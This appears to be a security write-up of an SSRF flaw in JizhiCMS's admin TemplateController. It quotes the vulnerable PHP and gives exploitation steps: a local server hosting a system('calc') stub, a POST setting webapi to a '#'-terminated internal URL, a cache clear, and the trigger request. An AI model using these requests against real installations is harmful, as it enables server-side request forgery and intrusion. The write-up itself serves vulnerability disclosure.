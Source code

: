 ### Debugging Analysis

The vulnerable file `app\admin\c\TemplateController.php` contains the following key code:

```php
public function index(){
    // Check if the update link is accessible
    $webapi = $this->webconf['template_config'];
    if(!$webapi){
        $webapi = 'http://api.jizhicms.cn/template.php';
        if(!M('sysconfig')->find(['field'=>'template_config'])){
            M('sysconfig')->add(['title'=>JZLANG('Plugin Configuration'),'field'=>'template_config','type'=>2,'data'=>$webapi,'typeid'=>0]);
            setCache('webconfig',null);
        }
    }
    if($this->frparam('set')){
        if($this->admin['isadmin']!=1){
            JsonReturn(['code'=>1,'msg'=>JZLANG('Non-super administrators cannot set!')]);
        }
        $webapi = $this->frparam('webapi',1);
        M('sysconfig')->update(['field'=>'template_config'],['data'=>$webapi]);
        setCache('webconfig',null);
        JsonReturn(['code'=>0,'msg'=>JZLANG('Configuration successful!')]);
    }
    $this->webapi = $webapi;
    $api = $webapi.'?version='.$this->webconf['web_version'];
    $templates = getCache('templatelist');
    if(!$templates){
        $ch = curl_init();
        $timeout = 5;
        curl_setopt($ch,CURLOPT_FOLLOWLOCATION,1);
        curl_setopt($ch,CURLOPT_RETURNTRANSFER,1);
        curl_setopt($ch, CURLOPT_HEADER, false);
        curl_setopt($ch, CURLOPT_CONNECTTIMEOUT, $timeout);
        curl_setopt($ch,CURLOPT_URL,$api);
        $res = curl_exec($ch);
        $httpcode = curl_getinfo($ch,CURLINFO_HTTP_CODE);
        curl_close($ch);
        if($httpcode==200){
            $isok = true;
            $res1 = json_decode($res,1);
            if($res1['code']!=0){
                $isok = false;
            }else{
                $templates = $res1['data'];
                setCache('templatelist',$templates,86400);
            }
        }else{
            $isok = false;
        }
    }else{
        $isok = true;
    }
```

### Code Analysis

The audit reveals that the `webapi` variable can be set through the following block:
```php
if($this->frparam('set')){
    if($this->admin['isadmin']!=1){
        JsonReturn(['code'=>1,'msg'=>JZLANG('Non-super administrators cannot set!')]);
    }
    $webapi = $this->frparam('webapi',1);
    ...
```

Later, `webapi` is concatenated with `?version=`, allowing an attacker to use the `#` character to comment out subsequent parameters:
```php
$this->webapi = $webapi;
$api = $webapi.'?version='.$this->webconf['web_version'];
```

To reach the `curl` function, the `if` condition must be satisfied. This means the cache data needs to be cleared first to trigger the SSRF vulnerability point:
```php
$templates = getCache('templatelist');
if(!$templates){
```

### Exploitation

1. **Start a local simulated internal web service**:
   ```r
   php -S 127.0.0.1:8999
   ```

   Place the following `2.php` file on the server:
   ```php
   <?php
   system('calc');
   ```

2. **Send a request to set the `webapi`**:
   ```r
   POST /index.php/admins/Template/index.html

   set=1&webapi=http://127.0.0.1:8999/2.php%23
   ```
   ![](./public/3-1.png)

3. **Clear the cache from the cache-clearing page**:
     ![](./public/3-2.png)


4. **Request the path to trigger the SSRF vulnerability**:
   ```r
   index.php/admins/Template/index.html
   ```
   ![](./public/3-3.png)


You can see that the local web service successfully receives the request and the 2.php file is run and the calculator pops up
   ![](./public/3-4.png)
